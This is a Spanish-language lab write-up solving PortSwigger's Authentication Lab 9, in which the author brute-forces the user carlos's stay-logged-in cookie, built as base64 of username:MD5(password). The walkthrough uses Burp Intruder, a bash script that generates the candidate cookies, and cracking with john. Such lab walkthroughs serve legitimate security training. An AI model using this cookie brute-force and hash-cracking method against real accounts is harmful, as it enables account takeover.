 ```yaml
---
title: "Authentication Lab 9"
date: 2025-01-29 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Authentication
tags:
  - Authentication
  - Brute-forcing a stay-logged-in cookie
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Brute-forcing a stay-logged-in cookie

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP

## Descripción

Para `resolver` el `laboratorio`, debemos `realizar` un `ataque` de `fuerza bruta` sobre la `cookie` de Carlos para `acceder` a `Mi account`. Podemos usar nuestras credenciales `wiener:peter` para iniciar sesión, el `nombre de usuario` de la `víctima` es `carlos` y podemos usar el diccionario `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) para `bruteforcear` la `contraseña`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Authentication-Lab-9/image_1.png)

Pulsamos sobre `My account`, nos `logueamos` usando las credenciales `wiener:peter` y marcamos la casilla de `Stay logged in`

![](/assets/img/Authentication-Lab-9/image_2.png)

En el caso de que introdujésemos `dos veces` la `contraseña incorrecta` nos `bloquearía` y deberíamos `esperar 1 minuto` para volver a intentar `introducir` las `credenciales`

![](/assets/img/Authentication-Lab-9/image_3.png)

`Rellenamos` el campo `Email`, `pulsamos` en `Update email` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/Authentication-Lab-9/image_4.png)

Si nos fijamos bien el campo `stay-logged-in` de la `cookie` está `compuesto` por el `nombre` de `usuario` y la `contraseña`

![](/assets/img/Authentication-Lab-9/image_5.png)

`Identificamos` el `tipo` de `hash` con el que se `cifra` la `contraseña`, para ello podemos usar `webs` como [https://hashes.com/en/tools/hash_identifier](https://hashes.com/en/tools/hash_identifier)

![](/assets/img/Authentication-Lab-9/image_6.png)

Otra opción sería usar `herramientas` como `hash-identifier`

```
# hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 51dc30ddc473d43a6011e9ebba6ca770

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

Least Possible Hashs:
[+] RAdmin v2.x
[+] NTLM
[+] MD4
[+] MD2
[+] MD5(HMAC)
[+] MD4(HMAC)
[+] MD2(HMAC)
[+] MD5(HMAC(Wordpress))
[+] Haval-128
[+] Haval-128(HMAC)
[+] RipeMD-128
[+] RipeMD-128(HMAC)
[+] SNEFRU-128
[+] SNEFRU-128(HMAC)
[+] Tiger-128
[+] Tiger-128(HMAC)
[+] md5($pass.$salt)
[+] md5($salt.$pass)
[+] md5($salt.$pass.$salt)
[+] md5($salt.$pass.$username)
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($salt.$pass))
[+] md5($salt.md5(md5($pass).$salt))
[+] md5($username.0.$pass)
[+] md5($username.LF.$pass)
[+] md5($username.md5($pass).$salt)
[+] md5(md5($pass))
[+] md5(md5($pass).$salt)
[+] md5(md5($pass).md5($salt))
[+] md5(md5($salt).$pass)
[+] md5(md5($salt).md5($pass))
[+] md5(md5($username.$pass).$salt)
[+] md5(md5(md5($pass)))
[+] md5(md5(md5(md5($pass))))
[+] md5(md5(md5(md5(md5($pass)))))
[+] md5(sha1($pass))
[+] md5(sha1(md5($pass)))
[+] md5(sha1(md5(sha1($pass))))
[+] md5(strtoupper(md5($pass)))
--------------------------------------------------
```

Para `confirmar` que es `MD5` usamos este comando y vemos que `ambos hashes coinciden`

```
# echo -n 'peter' | md5sum | awk '{print $1}'
51dc30ddc473d43a6011e9ebba6ca770
```

Vemos que podemos `eliminar` el `parámetro session` y el servidor nos `asigna` una `cookie` de acuerdo al parámetro `stay-logged-in`

![](/assets/img/Authentication-Lab-9/image_7.png)

Si intentamos acceder a `/my-account?id=carlos` con el y el `stay-logged-in` tiene las `credenciales incorrectas` nos hará un `redirect` a `/login`. Sin embargo, si lo hacemos con las `credenciales correctas` nos `devolverá` un `200 OK` y no habrá ningún redirect, podemos usar esto para `bruteforcear` la `contraseña` del usuario `carlos` y `acceder` a su `cuenta`

![](/assets/img/Authentication-Lab-9/image_8.png)

Para `crear` este `valor` de la `cookie` vamos a usar el diccionario `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) y este `script` en `bash`

```
#!/bin/bash

while IFS= read -r line
do
  username="carlos"
  md5_hashed_password=$(echo -n "$line" | md5sum | awk '{print $1}')
  base64_hashed_password="$username:$md5_hashed_password"
  echo -n "$base64_hashed_password" | base64 >> hashed_passwords.txt
done < "passwords.txt"
```

`Mandamos` la `petición` al `Intruder` y ahí `marcamos` el `campo` de la `cookie` a `bruteforcear`

![](/assets/img/Authentication-Lab-9/image_9.png)

`Cargamos` el `diccionario` creado

![](/assets/img/Authentication-Lab-9/image_10.png)

Otra forma de `bruteforcear` sería usando las `contraseñas` de `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) y luego `procesar` el `payload` con `Burpsuite`

![](/assets/img/Authentication-Lab-9/image_11.png)

Si la `contraseña` es la `correcta` nos `devuelve` el `código de estado 200`, así que `filtramos` por `código` de `estado` y `obtenemos` el `hash`

![](/assets/img/Authentication-Lab-9/image_12.png)

`Obtenemos` la `contraseña` del usuario `carlos`

```
# echo 'Y2FybG9zOjkxY2IzMTVhNjQwNWJmY2MzMGUyYzQ1NzFjY2ZiOGNl' | base64 -d
carlos:91cb315a6405bfcc30e2c4571ccfb8ce 
```

El `payload` usado para la `petición` es el `número 83`, por lo tanto podemos usar awk` `para `obtener` esa `línea` del `diccionario` de contraseñas

```
# awk 'NR==83' passwords.txt 
chelsea
```

Otra forma sería `creando` un `archivo` con el hash `91cb315a6405bfcc30e2c4571ccfb8ce` en su interior y `bruteforcearlo` con `john`

```
# john --format=raw-MD5 -w passwords.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
chelsea          (?)     
1g 0:00:00:00 DONE (2025-01-29 11:40) 100.0g/s 38400p/s 38400c/s 38400C/s 123456..larry
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

`Iniciamos sesión` en la `cuenta` de `carlos`

![](/assets/img/Authentication-Lab-9/image_13.png)

![](/assets/img/Authentication-Lab-9/image_14.png)
